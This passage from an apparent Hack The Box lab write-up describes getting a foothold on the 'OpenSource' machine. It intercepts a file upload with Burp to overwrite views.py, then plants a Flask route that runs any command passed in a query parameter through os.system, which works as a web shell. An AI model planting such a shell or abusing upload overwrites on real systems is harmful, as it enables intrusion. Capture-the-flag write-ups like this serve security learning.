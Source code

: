 # Foothold

We can try to manipulate the upload function and overwriting the **views.py** file. Go `http://10.10.11.164/upcloud` and upload a file, but intercept the request with burp. We can see that the web is uploading the file as:

![Untitled](/assets/img/hackthebox/labs/opensource/Untitled.png)

We can change this into our reverse shell, using the following content:

```python
@app.route('/shell')
def cmd():
    return os.system(request.args.get('cmd'))
```

This should be the final output:

![Untitled](/assets/img/hackthebox/labs/opensource/Untitled%201.png)

Send it with the forward button from burp.
